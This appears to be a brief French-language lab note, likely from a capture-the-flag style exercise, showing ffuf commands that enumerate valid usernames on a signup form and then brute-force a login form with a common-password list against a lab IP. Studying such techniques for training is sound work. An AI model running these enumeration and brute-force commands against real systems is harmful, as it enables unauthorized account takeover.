FUZZ valid username on signup page

```sh
ffuf -w /opt/secLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.167.142/customers/signup -mr "username already exists"
```

L'argument `-mr` est le texte de la page que nous recherchons pour valider que nous avons trouvé un nom d'utilisateur valide.

Une attaque force brute

```sh
ffuf -w valid_usernames.txt:W1,/opt/secLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.167.142/customers/login -fc 200
```

L'argument `-fc` pour rechercher un code d'état HTTP autre que 200.